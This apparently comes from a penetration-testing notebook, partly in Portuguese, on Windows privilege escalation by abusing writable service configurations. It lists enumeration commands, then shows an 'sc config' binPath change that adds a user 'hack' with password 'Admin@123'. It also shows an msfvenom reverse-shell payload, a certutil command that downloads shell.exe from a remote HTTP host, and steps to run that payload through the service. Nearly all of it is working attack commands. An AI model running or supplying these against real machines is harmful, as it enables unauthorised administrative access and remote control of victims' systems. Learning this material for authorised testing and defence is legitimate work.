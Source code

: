 # 1. Services

identify the services that are running

```
wmic service
wmic service get Name,State,PathName | findstr "Running" | findstr "Program" - esse comando vai mostrar apenas os programas instalados pelo usuario e que estao com o processo rodando na maquina

icacls "C:\Program Files\IObit\Advanced SystemCare\ASCService.exe" - esse comando vai mostrar as permissoes para esse determinado serviço

```

<div align="left"><figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure></div>

\
In this case, icacls informs that the user has full permission (F) for this service.
\
Using Sysinternals to check service permissions

{% code overflow="wrap" %}
```
accesschk.exe -wvcu "Users" * - Search for all services on the machine that have write permission
```
{% endcode %}

Search for information about a specific service

```
sc query service
sc query AdvancedSystemCareService13 - Search for information about this service
sc qc AdvancedSystemCareService13 - Show service configuration information
```

Using the service to add a user

```
changing the service path to run commands
sc config AdvancedSystemCareService13 binPath=" net user hack Admin@123 /add"

After changing the service path, you need to restart this service to run the command.

sc stop AdvancedSystemCareService13
sc start AdvancedSystemCareService13
```

We can execute a reverse shell to gain administrative access in the same way

```
#Creating the shell
msfvenom -p windows/shell_reverse_tcp lhost=172.168.0.16 lport=8080 -f exe > shell.exe

After that send to target
```

<div align="left"><figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure></div>

Receiving the shell

```
#Changing the service path again

sc config AdvancedSystemCareService13 binPath=" certutil -urlcache -f http://192.168.0.16/shell.exe shell.exe"
```

\
After changing the binpath, just start the service to receive the file.

<div align="left"><figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure></div>

To run the reverse shell just change the binpath again and call the shell

```
sc config AdvancedSystemCareService13 binPath="shell.exe"
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure></div>
